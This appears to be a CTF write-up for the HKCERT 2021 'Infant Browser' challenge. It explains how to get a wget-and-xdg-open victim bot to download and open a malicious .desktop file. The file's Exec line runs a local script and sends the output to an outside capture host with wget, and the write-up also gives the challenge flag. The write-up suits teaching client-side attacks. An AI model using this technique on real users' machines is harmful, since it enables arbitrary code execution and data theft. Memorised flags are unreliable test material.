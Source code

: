 網絡安全隱患 / Infant Browser
===

## Summary

* **Thumbnail:** ![](thumbnail.jpg)
* **Song:** https://www.youtube.com/watch?v=lcbMp5kWUUE
* **Author:** ozetta
* **Categories:** Web, Pwn, Browser, 手把手教你玩, ☆☆☆☆☆
* **Points:** 50
* **Solves:** 52/234 (Secondary: 10/103, Tertiary: 14/65, Open: 23/60, Invited: 5/6)

## Description

http://chalf.hkcert21.pwnable.hk:28098/

What if someone uses wget as the browser?
Flag: find the flag in the root directory with name `/proof*.sh`

---

* The objective of this kind of challenges is to send a malicious webpage / URI to steal sensitive information or even execute arbitrary code in the victim's machine. Unlike XSS where the impact is limited to the victim's account in a particular website, a browser / desktop app exploit, or client-side attack in general, may compromise the entire victim's machine.

* In this challenge, we are allowed to send the victim an arbitrary URI and they will open it with `xdg-open` (just like clicking on links in a browser). To trick a victim to execute arbitrary code, we can craft an XDG Desktop Entry, which could specify what command to be executed.

* But before we can trick the victim to open the Desktop Entry, we need to write the Desktop Entry to somewhere in the local filesystem. This could be done since the victim is using `wget` as the browser, and the current working directory is writable.

* For example, you can upload a Desktop Entry file named `example.desktop` to your website (e.g. Github page), and then ask the victim bot to download it
```
[Desktop Entry]
Exec=sh -c "wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?`/proof*.sh`"
Type=Application
```
* If this Desktop Entry is opened, then it will execute the command after `Exec=`, which will first execute `/proof*.sh` and obtain the output, and execute `wget https://xxxxxxxxxxxxxxx.m.pipedream.net/?(the output from executing /proof*.sh)`, which allows you to capture the flag

* Once the `example.desktop` file is written, you can ask the victim bot to open `file:///tmp/example.desktop` so that they will execute the code you planted before
* But make sure you use a unique filename for the Desktop Entry file since the challenge platform is common to every participants

* Too easy for you? Now you can try babyURIi...

### Attachments

- [infantbrowser_6939c231042fd155a512940cd0982f76.zip](https://github.com/blackb6a/hkcert-ctf-2021-challenges/releases/download/v1.0.0/infantbrowser_6939c231042fd155a512940cd0982f76.zip)

## Flag

`hkcert21{Infant_Browser_flag_153283eeddd3002f}`
